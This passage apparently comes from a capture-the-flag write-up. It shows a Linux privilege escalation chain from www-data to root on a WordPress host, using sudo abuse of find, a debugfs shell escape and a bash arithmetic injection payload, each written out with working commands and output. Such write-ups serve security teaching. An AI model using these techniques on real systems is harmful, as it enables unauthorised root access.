    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 4332e68ad5d4:
    (rafa) NOPASSWD: /usr/bin/find

```

Two user home directories exist, `rafa` and `ruben`. The `www-data` account can run `/usr/bin/find` as `rafa` without a password.

---

## Privilege Escalation

**1. Escalation from www-data to rafa**

The `find` binary allows arbitrary command execution, so the standard GTFOBins technique was used to spawn a shell as `rafa`.

```bash
www-data@4332e68ad5d4:/var/www/html/wp-content/uploads$ sudo -u rafa find . -exec /bin/bash \; -quit
rafa@4332e68ad5d4:/var/www/html/wp-content/uploads$ id
uid=1001(rafa) gid=1001(rafa) groups=1001(rafa),100(users)
```

The switch to `rafa` succeeded. Its sudo rights were inspected next.

```bash
rafa@4332e68ad5d4:/var/www/html/wp-content/uploads$ sudo -l
Matching Defaults entries for rafa on 4332e68ad5d4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rafa may run the following commands on 4332e68ad5d4:
    (ruben) NOPASSWD: /usr/sbin/debugfs
```

**2. Escalation from rafa to ruben**

`rafa` can run `/usr/sbin/debugfs` as `ruben` without a password. The interactive debugfs prompt supports shell escapes using `!`.

```bash
rafa@4332e68ad5d4:/var/www/html/wp-content/uploads$ sudo -u ruben debugfs
debugfs 1.47.0 (5-Feb-2023)
debugfs:  !/bin/bash
ruben@4332e68ad5d4:/var/www/html/wp-content/uploads$ id    
uid=1002(ruben) gid=1002(ruben) groups=1002(ruben),100(users)
```

The `!/bin/bash` shell escape at the debugfs prompt returned a shell as `ruben`. Its sudo rights were checked.

```bash
ruben@4332e68ad5d4:/var/www/html/wp-content/uploads$ sudo -l
Matching Defaults entries for ruben on 4332e68ad5d4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ruben may run the following commands on 4332e68ad5d4:
    (ALL) NOPASSWD: /bin/bash /opt/penguin.sh
ruben@4332e68ad5d4:/var/www/html/wp-content/uploads$ ls -la /opt/penguin.sh /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
-rw-r--r-- 1 root root     109 Jun  8  2024 /opt/penguin.sh
ruben@4332e68ad5d4:/var/www/html/wp-content/uploads$ cat /opt/penguin.sh 
#!/bin/bash

read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi

```

**3. Escalation from ruben to root**

`ruben` can run `/bin/bash /opt/penguin.sh` as any user without a password. The script reads user input into the `num` variable and compares it inside an arithmetic expression `[[ $num -eq 42 ]]`. Because the comparison is evaluated arithmetically, a command substitution payload injected at the prompt gets executed with root privileges.

```bash
ruben@4332e68ad5d4:/var/www/html/wp-content/uploads$ sudo /bin/bash /opt/penguin.sh
Enter guess: 42-x[$(/bin/bash -p >&2)]
root@4332e68ad5d4:/var/www/html/wp-content/uploads# cd
root@4332e68ad5d4:~# id
uid=0(root) gid=0(root) groups=0(root)
root@4332e68ad5d4:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
4332e68ad5d4
```

The input `42-x[$(/bin/bash -p >&2)]` caused the arithmetic evaluation to run `/bin/bash -p` as root, returning a fully privileged root shell and completing the compromise.

---

## Attack Chain Summary
1. **Reconnaissance**: A full TCP port scan with `nmap -sC -sV -p- -T4` identified Apache HTTP on port 80 running WordPress 6.5.4. Gobuster enumerated the standard WordPress directories plus an unusual `backups` directory.
2. **Vulnerability Discovery**: The `backups` directory contained `databaseback2may.zip`, which was downloaded and extracted to reveal a credentials table with the user `developer` and the password `2wmy3KrGDRD%RsA7Ty5n71L^`. A WPScan plugin enumeration identified `modern-events-calendar-lite` version 5.16.2, vulnerable to the authenticated arbitrary file upload flaw CVE-2021-24145.
3. **Exploitation**: The public PoC for CVE-2021-24145 was executed with the recovered credentials and uploaded a webshell to `wp-content/uploads/shell.php`. Triggering the shell returned a reverse connection as `www-data`, which was upgraded to a full PTY.
4. **Internal Enumeration**: The `www-data` account could run `/usr/bin/find` as `rafa` without a password, yielding a shell as `rafa`. In turn, `rafa` could run `/usr/sbin/debugfs` as `ruben`, and the debugfs shell escape `!/bin/bash` produced a shell as `ruben`.
5. **Privilege Escalation**: `ruben` could run `/bin/bash /opt/penguin.sh` as any user without a password. The script evaluated user input arithmetically, so the command substitution payload `42-x[$(/bin/bash -p >&2)]` executed `/bin/bash -p` as root, producing a fully privileged shell.
